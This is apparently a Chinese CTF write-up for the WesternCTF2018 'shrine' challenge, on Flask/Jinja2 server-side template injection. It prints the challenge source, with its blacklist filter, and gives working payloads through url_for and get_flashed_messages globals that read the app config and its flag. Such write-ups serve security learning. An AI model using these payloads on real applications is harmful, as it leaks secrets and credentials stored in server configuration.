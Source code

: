 # 原创
：  [WesternCTF2018]shrine

# [WesternCTF2018]shrine

#### [WesternCTF2018]shrine

## 考点

> 
SSTI模板注入


## 思路

> 
①：审计题目给的源码，在shrine路径下测试ssti能正常执行；<br/> ②：接着分析源码，注册了一个名为FLAG的config，猜测这就是flag，如果没有过滤可以直接{{config}}即可查看所有app.config内容，但是这题设了黑名单[‘config’,‘self’]并且过滤了括号；<br/> ③：`return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s`把黑名单的东西遍历并设为空，例如：`/shrine/{{config}}`；<br/> ④：利用python的其它内置函数，比如url_for和get_flashed_messages：`/shrine/{{url_for.__globals__}}`；


## Payload

> 
题目给的源码


```
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/&lt;path:shrine&gt;')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) 
        + s

    return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
    app.run(debug=True)


```

> 
SSTI测试


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210517190445574.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210517190455143.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210517190502641.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
看到current_app意思应该是当前app，那我们就当前app下的config：`{{url_for.__globals__['current_app'].config}}`，得到flag


> 
我们利用：`{{get_flashed_messages.__globals__['current_app'].config}}`，一样可以

